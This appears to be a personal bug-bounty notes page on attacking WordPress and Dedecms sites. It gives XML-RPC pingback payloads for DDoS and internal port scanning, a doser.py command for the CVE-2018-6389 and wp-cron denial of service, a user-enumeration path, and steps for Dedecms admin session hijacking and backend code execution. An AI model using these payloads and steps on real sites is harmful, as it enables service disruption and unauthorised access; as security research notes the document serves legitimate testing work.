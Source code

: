 ```yaml
---
title: CMS
toc: true
date: 2021-04-14 11:42:59
tags: Summary
categories: [100 Cyber security, 110 Bug bounty, 112 Ideas]
---
```


## 指纹识别
  * Wappalyzer

## Wordpress

### Wordpress Detection
  * Wappalyzer
  * WhatRuns
  * BuildWith
### General Scan Tool
  * WpScan
### xmlrpc.php
  * one of the common issue on wp, to get credit, u need to fully exploit n show the impact.
  * detection:
    * site.com/xmlrpc.php
    * Get the error message about POST request only
  * exploit
    ***ref: https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/***
    ***https://the-bilal-rizwan.medium.com/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32***
    * Intercept the request and change the method GET to POST
    * List all Methods
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
  * pingback.ping DDoS

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

  * pingback.ping SSRF (internal PORT scan only)

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
  * tools
  xmlrpc-scan https://github.com/nullfil3/xmlrpc-scan

### CVE-2018-6389 (wp <= 4.9.3)
  * detection
    * https://gist.github.com/remonsec/4877e9ee2b045aae96be7e2653c41df9
  * exploit
    * use DDoS (Doser https://github.com/quitten/doser.py)

    ```
python3 doser.py -t 999 -g 'https://site.com/fullUrlFromLoadsxploit'
    ```

### WP Cornjob DOS
  * detection
    * view site.com/wp-cron.php, You will see a Blank page with 200 HTTP status code
  * exploit
    * same tool as above (Doser)

    ```
    You will see a Blank page with 200 HTTP status code
    ```
    ***ref: https://medium.com/@thecpanelguy/the-nightmare-that-is-wpcron-php-ae31c1d3ae30***
### WP User Enumeration
  * site.com/wp-json/wp/v2/users/
  * mostly not acceptable, can be used to extend the impact tho

## Dedecms

### win版本后台目录爆破
https://xz.aliyun.com/t/2064

### 利用会员密码重置漏洞重置管理员密码

### 关闭会员注册如何重置管理员密码
在Dedecms中，管理员登录过后台，就会在data目录下有一个相应的session（`eg:192.168.102.194/uploads/data/session_40b6938a56`）文件。通过目录遍历获取session值（sess_blabla），通过editcookie修改cookie(blabla)，进入后台。

### 后台内恶意执行
在模板的标签源码碎片管理中插入一段恶意代码，即可执行任意命令。
